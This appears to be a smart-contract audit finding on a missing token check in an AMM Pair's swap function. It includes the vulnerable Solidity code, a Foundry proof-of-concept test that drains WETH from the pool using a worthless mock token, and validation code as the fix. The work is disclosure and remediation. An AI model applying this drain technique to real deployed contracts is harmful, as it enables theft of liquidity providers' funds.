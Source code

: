 ### [H-1] Missing token validation in swap function allows unauthorized token withdrawals

**Severity:** High

**Description:**
The `swap` function in the Pair contract does not validate that the `fromToken` and `targetToken` addresses match either `token0` or `token1`. When a user calls `swap` with an invalid `fromToken` that doesn't match either of the pair's tokens, they can effectively withdraw tokens from the pair without actually providing any valid tokens in return.

This happens because:

1. The `_getReserveFromToken` function returns 0 for any token that doesn't match token0 or token1
2. The `getAmountOut` function calculates a non-zero output based on the existing pool reserves
3. The contract then transfers the output token to the attacker while accepting a worthless or non-existent token

```solidity
function swap(address fromToken, address targetToken, uint256 amountIn) external lock {
    // No validation that fromToken and targetToken are valid pair tokens
    uint256 amountOut = getAmountOut(fromToken, targetToken, amountIn);

    if (amountOut == 0) revert Pair_InsufficientOutput();

    // First transfer FROM user TO pair - accepts any token address!
    IERC20(fromToken).safeTransferFrom(msg.sender, address(this), amountIn);
    // Then transfer FROM pair TO user - sends real tokens from the pool
    IERC20(targetToken).safeTransfer(msg.sender, amountOut);

    // ...
}

function _getReserveFromToken(address token) internal view returns (uint256 reserve) {
    if (token == token0) {
        return reserve0;
    } else if (token == token1) {
        return reserve1;
    }
    // No else condition, implicitly returns 0 for invalid tokens
}
```

**Impact:**
This is a critical vulnerability that allows an attacker to drain tokens from the pool:

- Attackers can withdraw any amount of token0 or token1 from the pool by providing a worthless token that isn't part of the pair
- The attacker can create their own ERC20 token with no value and use it to drain the entire liquidity pool
- Liquidity providers will lose their funds as the pool can be completely drained
- The core invariant of the AMM (constant product formula) is completely broken as the contract accepts tokens that aren't accounted for in the reserves

**Severity Justification:**

- **Impact:** High - Direct theft of funds from the protocol is possible
- **Likelihood:** High - The attack is straightforward to execute and requires minimal setup
- **Rating:** High - This is a critical vulnerability that allows unauthorized token withdrawal and can lead to complete pool drainage

**Proof of Concept:**
The following test demonstrates how an attacker can drain tokens from the pool by providing a worthless token:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.26;

import { Test } from "@forge-std/Test.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { ERC20Mock } from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import { Constants } from "../helpers/Constants.sol";
import { Pair } from "../../contracts/Pair.sol";

contract PairH1Test is Test, Constants {
    function setUp() public {
        usdc = address(new ERC20Mock());
        weth = address(new ERC20Mock());
        pair = new Pair(usdc, weth);

        deal(usdc, USER_1, TOKEN_0_AMOUNT);
        deal(weth, USER_1, TOKEN_1_AMOUNT);

        vm.startPrank(USER_1);
        IERC20(usdc).approve(address(pair), TOKEN_0_AMOUNT);
        IERC20(weth).approve(address(pair), TOKEN_1_AMOUNT);
        pair.addLiquidity(TOKEN_0_AMOUNT, TOKEN_1_AMOUNT);
        vm.stopPrank();
    }

    function test_InvalidToken_DoNotRevert_() public {
        // Arrange attack
        address ATTACKER = makeAddr("ATTACKER");
        address invalidToken = address(new ERC20Mock());
        deal(invalidToken, ATTACKER, TOKEN_1_AMOUNT);
        vm.prank(ATTACKER);
        IERC20(invalidToken).approve(address(pair), TOKEN_1_AMOUNT);

        uint256 attackerWethPreBalance = IERC20(weth).balanceOf(ATTACKER);
        assertEq(attackerWethPreBalance, 0);

        uint256 expectedWethReceived = pair.getAmountOut(invalidToken, weth, TOKEN_1_AMOUNT);

        // Try to swap an invalid token
        vm.prank(ATTACKER);
        // vm.expectRevert(); // This should revert but doesn't
        pair.swap(invalidToken, weth, TOKEN_1_AMOUNT);

        uint256 attackerWethPostBalance = IERC20(weth).balanceOf(ATTACKER);
        assertEq(attackerWethPostBalance, expectedWethReceived);
    }
}
```

**Recommended Mitigation:**
Implement strict token validation in both the `swap` and `getAmountOut` functions:

```solidity
function swap(address fromToken, address targetToken, uint256 amountIn) external lock {
    // Validate token addresses
    if (fromToken != token0 && fromToken != token1) {
        revert Pair_InvalidInputToken();
    }

    if (targetToken != token0 && targetToken != token1) {
        revert Pair_InvalidOutputToken();
    }

    if (fromToken == targetToken) {
        revert Pair_IdenticalTokens();
    }

    uint256 amountOut = getAmountOut(fromToken, targetToken, amountIn);
    // ...
}
```

Apply the same validation in the `getAmountOut` function:

```solidity
function getAmountOut(address fromToken, address targetToken, uint256 amountIn)
    public
    view
    returns (uint256 amountOut)
{
    // Validate token addresses
    if (fromToken != token0 && fromToken != token1) {
        revert Pair_InvalidInputToken();
    }

    if (targetToken != token0 && targetToken != token1) {
        revert Pair_InvalidOutputToken();
    }

    if (fromToken == targetToken) {
        revert Pair_IdenticalTokens();
    }

    if (amountIn == 0) {
        revert Pair_InsufficientInput();
    }

    uint256 reserveIn = _getReserveFromToken(fromToken);
    uint256 reserveOut = _getReserveFromToken(targetToken);

    // Continue with calculation...
}
```

Additionally, consider adding validation in the `_getReserveFromToken` function to explicitly revert for invalid tokens:

```solidity
function _getReserveFromToken(address token) internal view returns (uint256 reserve) {
    if (token == token0) {
        return reserve0;
    } else if (token == token1) {
        return reserve1;
    } else {
        revert Pair_InvalidToken();
    }
}
```
